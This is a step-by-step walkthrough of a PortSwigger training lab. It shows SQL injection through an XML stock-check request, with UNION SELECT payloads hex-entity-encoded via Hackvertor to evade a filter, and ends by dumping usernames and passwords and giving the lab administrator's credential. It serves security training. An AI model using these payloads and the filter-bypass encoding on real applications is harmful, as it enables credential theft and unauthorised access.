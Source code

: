 # SQL injection with filter bypass via XML encoding

## This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a `users` table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.

___
#xml

step 1

open lab go to any product 
click on check stock and intercept request through burpsuite
and send to repeater

![screnshot](./images/lab18_0.png)

step 2

send request you will get total units

![screnshot](./images/lab18_1.png)

step 3

add 1+1 in store section then send request
you will see changes in units

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		1+1
	</storeId>
</stockCheck>
```

![screnshot](./images/lab18_2.png)

step 4

add `1 UNION SELECT NULL` in store section then send request
you will see changes in units

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		1 UNION SELECT NULL
	</storeId>
</stockCheck>
```

![screnshot](./images/lab18_3.png)


step 5

use  hackvertor extension click on hex_entities
add `1 UNION SELECT NULL` in hex entities section then send request
you will see unit with null

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		<@hex_entities>
		1 UNION SELECT NULL
		<@/hex_entities>
	</storeId>
</stockCheck>
```

![screnshot](./images/lab18_4.png)

step 6

add `1 UNION SELECT username || '~' || password FROM users` in hex entities section then send request
you will see account with password

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		1
	</productId>
	<storeId>
		<@hex_entities>
		1 UNION SELECT username || '~' || password FROM users
		<@/hex_entities>
	</storeId>
</stockCheck>
```

![screnshot](./images/lab18_5.png)

step 7

To solve the lab use
`administrator~0swkp8f5wyqrafgemqjz`

![screnshot](./images/lab18_6.png)